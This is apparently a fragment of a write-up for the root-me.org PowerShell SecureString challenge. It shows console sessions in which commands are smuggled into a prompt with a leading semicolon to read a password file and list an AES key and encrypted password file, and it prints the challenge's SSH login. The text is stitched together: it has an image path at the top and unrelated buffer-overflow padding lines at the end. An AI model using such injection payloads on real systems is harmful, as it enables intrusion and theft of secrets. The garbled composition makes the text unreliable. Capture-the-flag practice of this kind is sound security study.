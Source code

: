 ```powershell
> ;Get-content .passwd
Connect to the database With the secure Password: . Backup the table
SecureIEXpassword
Table to dump:
>
```

## Powershell - SecureString

```powershell
[Press Shift-F1 for help]

Host/IP or ssh:// URL [localhost]: ssh://app-script-ch19:app-script-ch19@challen
ge05
Connecting to ssh://app-script-ch19@challenge05:22

load pubkey "/dev/null/.ssh/id_rsa": Not a directory
load pubkey "/dev/null/.ssh/id_rsa": Not a directory
load pubkey "/dev/null/.ssh/id_dsa": Not a directory
load pubkey "/dev/null/.ssh/id_dsa": Not a directory
load pubkey "/dev/null/.ssh/id_ecdsa": Not a directory
load pubkey "/dev/null/.ssh/id_ecdsa": Not a directory
load pubkey "/dev/null/.ssh/id_ecdsa_sk": Not a directory
load pubkey "/dev/null/.ssh/id_ecdsa_sk": Not a directory
load pubkey "/dev/null/.ssh/id_ed25519": Not a directory
load pubkey "/dev/null/.ssh/id_ed25519": Not a directory
load pubkey "/dev/null/.ssh/id_ed25519_sk": Not a directory
load pubkey "/dev/null/.ssh/id_ed25519_sk": Not a directory
load pubkey "/dev/null/.ssh/id_xmss": Not a directory
load pubkey "/dev/null/.ssh/id_xmss": Not a directory
      _           _ _                        ___  ____
  ___| |__   __ _| | | ___ _ __   __ _  ___ / _ \| ___|
 / __| '_ \ / _` | | |/ _ \ '_ \ / _` |/ _ \ | | |___ \
| (__| | | | (_| | | |  __/ | | | (_| |  __/ |_| |___) |
 \___|_| |_|\__,_|_|_|\___|_| |_|\__, |\___|\___/|____/
                                 |___/ root-me.org

Table to dump:
>
```

```powershell
> ;ls
Connect to the database With the secure Password: System.Security.SecureString.
Backup the table

    Directory: C:\cygwin64\challenge\app-script\ch19

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/29/2020   9:27 AM            361 .passwd.crypt
-a----       10/29/2020   9:23 AM            176 AES.key
-a----       10/29/2020   9:30 AM            331 ch19.ps1
Table to dump:
>
```


[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[buf]: 0000000000000000000000000000000000000000ﾭÃ